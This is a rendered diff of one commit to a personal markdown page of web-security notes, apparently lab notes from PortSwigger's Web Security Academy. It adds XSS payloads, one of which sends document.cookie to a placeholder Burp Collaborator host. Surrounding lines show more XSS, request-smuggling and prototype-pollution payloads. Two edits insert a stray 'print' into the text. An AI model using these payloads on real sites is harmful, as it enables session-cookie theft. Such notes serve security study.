

Before and after one commit to B310M0R/notes, a Markdown page: useful.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/useful.md
+++ b/useful.md
@@ -206,6 +206,9 @@ Can be interpreted as
 "-alert(window["document"]["cookie"])-"
 "-window["alert"](window["document"]["cookie"])-"
 "-self["alert"](self["document"]["cookie"])-"
+"-alert``}//
+"}; location=”https://BURP-COLLABORATOR-URL/?”+document.cookie; //
+%22};%20location=%22https://BURP-COLLABORATOR-URL/?%22%2bdocument.cookie;%20//
 ```
 
 ```
@@ -553,7 +556,7 @@ GET /post?postId=10 HTTP/1.1
 User-Agent: kek"><img src=123 onerror=alert(1)>
 Foo: x
 ```
-7. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
+7. Exploiting HTTP requestprint smuggling to bypass front-end security controls, CL.TE vulnerability
 ```
 POST / HTTP/1.1
 Host: 0a6f008e04ed8481c035778000dc0063.web-security-academy.net
@@ -1096,7 +1099,7 @@ Arises, usually, in these JS files: searchLogger.js, searchLoggerAlternative.js
 1. DOM XSS via client-side prototype pollution
 ```
 https://site.com/?__proto__[transport_url]=data:,alert(1)
-```
+```print
 2. DOM XSS via an alternative prototype pollution vector
 ```
 https://site.com/?__proto__.sequence=alert(1)-
````
Also changed, not shown: other parts of useful.md (+1 -1 lines), XSS.md (+1 -4 lines), insecure_deserialization.md (+1 -1 lines).
